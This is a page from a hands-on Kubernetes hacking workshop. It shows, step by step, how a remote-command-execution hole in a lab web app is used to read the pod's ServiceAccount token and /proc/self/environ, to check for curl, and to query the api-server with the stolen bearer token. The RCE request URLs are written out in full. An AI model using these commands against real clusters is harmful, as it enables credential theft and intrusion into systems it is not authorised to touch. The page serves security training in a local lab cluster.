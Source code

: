 # Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through

<!-- TOC -->
* [Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through](#hands-on-hacking-k8s-workshop--section-2--exploit-walk-through)
  * [Part 2: Accessing the api-server](#part-2--accessing-the-api-server)
    * [Checkpoint](#checkpoint)
      * [What we already knew:](#what-we-already-knew-)
      * [New info:](#new-info-)
      * [Timeline of Doom](#timeline-of-doom)
  * [Next step](#next-step)
<!-- TOC -->

## Part 2: Accessing the api-server

1. Every Kubernetes Pod has a service token by default which is associated with its ServiceAccount.
   By default, this token is auto-mounted into every Pod at the path `var/run/secrets/kubernetes.io/serviceaccount/token`.
   Let's use the RCE to try to print out that token using the `cat` command:
   
   http://localhost/webadmin?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token
   ![](media/02-02-01-cattoken.png)


   We now have the Pod token, so we have some credentials to play with. This can be used to help us
   explore other places in the cluster.

   It's also worth noting that even if this was just a directory traversal exploit, much of what we found—including this
   token—could also have been discovered. Even the environment variables are visible via the `/proc`
   file system. For example, printing out the contents of `/proc/self/environ` would
   give us the equivilent of running `env`: http://localhost/webadmin?cmd=cat%20/proc/self/environ
   ![](media/02-02-01-procenv.png)


2. Now let's see if we have some kind of tooling that I can use to make web calls via my RCE. Let's see if we have `curl`
   available: http://localhost/webadmin?cmd=curl%20https://google.com
    ![](media/02-02-02-curl.png)

   Success!


3. Next, lets take all that we've learned and apply it toward getting out of this container. We will use
   curl and the token credential to try to connect to the Kubernetes api-server and ask it for te cluster endpoints. The connection details are as follows:
   * **Host:** the `KUBERNETES_PORT` variable value
   * **URI:** the default namespace "endpoints" API `/api/v1/namespaces/default/endpoints` (it is often open to queries by any client)  
   * **Header:** An `Authorization: Bearer` containing contents of the token file from above
   * **CA Cert:**  The CA certificate which we can assume will be in the default location at the same path as our token
  file and named `ca.crt`. 
   
  The URL to open (replace `10.96.0.1` with your `KUBERNETES_PORT`): http://localhost/webadmin?cmd=curl%20--cacert%20/var/run/secrets/kubernetes.io/serviceaccount/ca.crt%20-H%20%22Authorization:%20Bearer%20$(cat%20/var/run/secrets/kubernetes.io/serviceaccount/token)%22%20https://10.96.0.1/api/v1/namespaces/default/endpoints

  ![](media/02-02-03-apicall.png)

  This command succeeds, and notice the section:
  ```yaml
  ...
  "subsets": [
    {
      "addresses" : [
         {
           "ip": "172.19.0.3"
         }
      ],"
  ...
  ```  
  In a real environment, that `ip` would give us the external address for the Kubernetes API server. Because we are
  running in Kind, it won't be this IP address, it will just be exposed on localhost with the same port. This is a
  vulnerability, and has been created by a too permissive policy for the service token. 
  
### Checkpoint
Let's take a moment to collect our notes and track our progress.

#### What we already knew:
* An application with an RCE vulnerability is available to us on port 80
* The application is running in a container on a Kubernetes cluster
* The application is behind a service listening on port 5000
* The Kubernetes api-server internal IP address 
* The IP address of the container/pod the application is running in

#### New info:
* The ServiceAccount and Pod configurations in this application's Namespace is using the default `automountServiceAccountToken` setting of `true`
* Using a found ServiceAccount token, we were able to connect to the cluster's api-server
* The api-server returned Endpoint information exposing its external IP _(although our workshop Kind cluster obscures this in practice)_

![](media/02-02-Checkpoint-1.png)

#### Timeline of Doom
Updated progress toward total ownership of the target cluster.
![](media/02-02-Timeline-1.png)

---
## Next step
In the [next step](02c-exploit.md), we will try to gain access directly to the external API endpoint and investigate what permissions the
account gives us as well as learning more about the cluster.

